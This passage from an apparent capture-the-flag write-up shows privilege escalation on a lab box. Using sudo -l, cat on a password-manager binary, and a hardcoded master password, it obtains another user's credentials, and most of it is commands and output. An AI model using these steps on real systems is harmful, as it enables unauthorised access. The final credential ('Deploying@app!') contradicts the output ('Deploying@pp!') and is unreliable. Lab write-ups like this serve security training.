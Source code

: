 We can run a binary as the user deploy

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
jaeger@shoppy:~$
```

We need a password 

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: xd 
Access denied! This incident will be reported !
```

But we can see the file

```bash
jaeger@shoppy:/home/deploy$ cat password-manager
```

The data is messy but we can see this line

```bash
Please enter your master password: SampleAccess granted!
```

We can use the credential

```bash
Sample
```

And we have the credentials of deploy user

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

credentials

```bash
user:deploy 
password:Deploying@app!
```
